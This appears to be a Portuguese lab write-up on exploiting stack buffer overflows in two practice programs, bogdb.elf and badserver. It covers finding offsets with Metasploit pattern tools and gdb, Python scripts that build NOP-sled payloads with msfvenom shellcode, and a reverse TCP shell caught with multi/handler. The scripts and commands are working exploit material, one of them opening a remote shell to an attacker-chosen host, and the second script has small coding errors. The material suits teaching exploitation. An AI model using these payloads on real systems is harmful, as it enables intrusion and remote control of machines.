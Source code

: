 # PARTE 1

### Overflow no bogdb.elf

- Criar uma string usando msf-patten_create -l 50
- Usar essa string de entrada para o buffer
- Ao dar Segmentation Fault, sabemos que talvez escrevemos um endereço inexistente no escopo do programa no endereço de retorno da função e, portanto, RIP estará apontando para um endereço inválido, o que causa o erro.
- Executar com gdb o elf a fim de identificar nosso offset.
- Ao dar segfault, usamos o comando _info registers_ no gdb para verificar que o rbp foi preenchido com algo. Podemos, então, printar o valor do rsp, pois o valor dele é o endereço onde começam os 6 bytes de retorno que queremos preencher com um apontador para nosso shellcode no futuro. 
- Alimentar para a função msf-pattern_offset -q o valor de rsp, com isso conseguimos o offset até o retorno. No caso do bogdb.elf esse valor é de 21 bytes.
- Criar um script em python para escrever um payload binário em uma file a fim de fornecer essa file como entrada para o bogdb. Esse payload segue o seguinte formato 
````import struct
buf = b"\x41" * 21
buf += struct.pack("Q", 0x7fffffffdd20)
buf += b"\x90" * 1000
buf += b"\x48\xb8\x2f\x62\x69\x6e\x2f\x73\x68\x00\x99\x50"
buf += b"\x54\x5f\x52\x66\x68\x2d\x63\x54\x5e\x52\xe8\x31"
buf += b"\x00\x00\x00\x65\x63\x68\x6f\x20\x27\x68\x65\x61"
buf += b"\x63\x6b\x61\x64\x6f\x20\x6f\x74\x61\x72\x69\x6f"
buf += b"\x20\x6b\x6b\x27\x20\x3e\x20\x48\x41\x43\x4b\x45"
buf += b"\x41\x52\x41\x4d\x5f\x4d\x45\x55\x5f\x50\x43\x2e"
buf += b"\x54\x58\x54\x00\x56\x57\x54\x5e\x6a\x3b\x58\x0f"
buf += b"\x05"

fo = open("teste.txt", 'wb+')
fo.write(buf)
fo.close()
````
- Primeiro, os 21 bytes são preenchidos com qualquer coisa, esse é nosso padding. Depois, colocamos um endereço de memória qualquer no retorno, vamos descobrir futuramente qual é o melhor lugar para mandar nosso código. Depois vem nossos NOPs: são importantíssimos porque aumentam MUITO nossa chance de acerto ao colocar um valor no ret, porque quando o fluxo de execução é desviado para um NOP o processo simplesmente continua executando até achar uma operação, nesse caso, ele continuará até encontrar nosso shellcode. Por fim, o shellcode em si, gerado pelo msfvenom.
- A linha de comando do msfvenom é a seguinte: ````msfvenom -p linux/x64/exec -f python CMD='<comando>'````, o que gera um shellcode, como no exemplo acima. 
- Executamos esse payload como entrada do bogdb.elf a fim de provocar um segfault. Depois, analisamos o core deixado pelo segfault e descobrimos, no gdb, printando a stack, qual endereço de retorno printar para ter mais chance de cair no meio dos nossos NOPs, fazemos isso usando x/300x $rsp, isso printará 300 posições da stack.
- Ao descobrir um endereço bom, basta colocar no payload.

# PARTE 2
### Overflow no badserver
- Os passos para descobrir o tamanho do buffer e o payload em si são iguais aos anteriores.
- O que muda aqui é que temos um servidor, o shellcode que vamos executar é outro: ````msfvenom -p linux/x64/shell/reverse_tcp LHOST=<ip> LPORT=<porta> -f python -b "\x00"````. Esse shellcode abrirá uma porta (definida em lport) para que o ip definido em lhost se conecte através do terminal multi/handler do metasploit. 
- Mandar o seguinte payload: 
````import struct
buf += b"\x48\x31\xc9\x48\x81\xe9\xef\xff\xff\xff\x48\x8d"
buf += b"\x05\xef\xff\xff\xff\x48\xbb\xf7\x15\x65\x7a\x25"
buf += b"\x85\x6b\xc1\x48\x31\x58\x27\x48\x2d\xf8\xff\xff"
buf += b"\xff\xe2\xf4\xc6\xea\x0f\x73\x7d\x1c\xdd\xd1\xbf"
buf += b"\x9c\xb3\x37\x14\x4c\x01\xe3\xb6\x4f\x0f\x7d\x7f"
buf += b"\x8a\x6e\x89\x72\xd5\x1d\x2b\x4f\x8f\x2a\x98\xa7"
buf += b"\x7f\x4c\x22\xbc\xef\x69\x9e\x9d\x14\x3b\x75\x20"
buf += b"\xcd\xee\x01\x8f\x2e\x2d\xed\x6d\x3c\x69\xc1\xe4"
buf += b"\xaf\x6f\x84\xf8\xc8\x3a\x89\x7e\xf3\x0f\x6a\x7f"
buf += b"\xef\x41\x99\xf8\x10\x3c\x32\xa0\x45\x12\xe4\xbe"
buf += b"\xea\xac\x0e\x3d\xd2\x01\xe2\xaf\x7f\x65\x10\x20"
buf += b"\xcd\xe2\x26\xbf\x24\x93\x75\x20\xdc\x32\x9e\xbf"
buf += b"\x90\xa5\x03\xe2\xef\x57\x99\x9d\x14\x3a\x75\x20"
buf += b"\xdb\x01\xe7\xad\x1a\x60\x32\xa0\x45\x13\x2c\x08"
buf += b"\xf3\x65\x7a\x25\x85\x6b\xc1"

pad = "\x41" * 40
EIP = struct.pack("I", 0x7ffffff780)
NOP = "\x90" * 100
shellcode = buf
print pad + EIP + NOP + shellcode
````

para abrir o reverse_tcp na porta especificada.

- Por fim, rodar msfconsole, dentro dele rodar use exploit/multi/handler, dentro desse handler precisamos setar o payload que usamos, a porta e o ip e finalmente executar com "run". 